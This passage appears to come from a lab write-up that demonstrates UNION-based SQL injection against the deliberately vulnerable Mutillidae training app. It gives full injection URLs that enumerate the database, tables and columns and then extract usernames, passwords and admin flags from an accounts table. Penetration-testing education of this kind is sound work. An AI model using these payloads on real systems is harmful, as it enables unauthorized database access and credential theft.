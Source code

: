 Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.
http://192.168.1.10/mutillidae/index.php?page=user-info.php&username=blaise%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details
## OUTPUT:
<img width="400" alt="image" src="https://github.com/user-attachments/assets/faee3c63-caff-4cb9-8736-086ac75ee443" />

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5.
In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one:
union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’
http://192.168.1.10/mutillidae/index.php?page=user-info.php&username=blaise%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
## OUTPUT:
<img width="400" alt="image" src="https://github.com/user-attachments/assets/85e95ff5-3ce8-41a0-9e16-e68bfaddb18a" />
<img width="400" alt="image" src="https://github.com/user-attachments/assets/6632160b-5cb8-4ad9-95bc-cabfd22c6438" />


The url once executed will  retrieve table names from the “owasp 10” database.

## Extracting sensitive data such as passwords 

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.

The column names of the accounts is displayed below for the following url:
http://192.168.1.10/mutillidae/index.php?page=user-info.php&username=blaise%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details 

## OUTPUT:
<img width="400" alt="image" src="https://github.com/user-attachments/assets/f2ee55f2-9b73-4ec7-8afb-0897503a31bc" />

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).
http://192.168.1.10/mutillidae/index.php?page=user-info.php&username=blaise%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
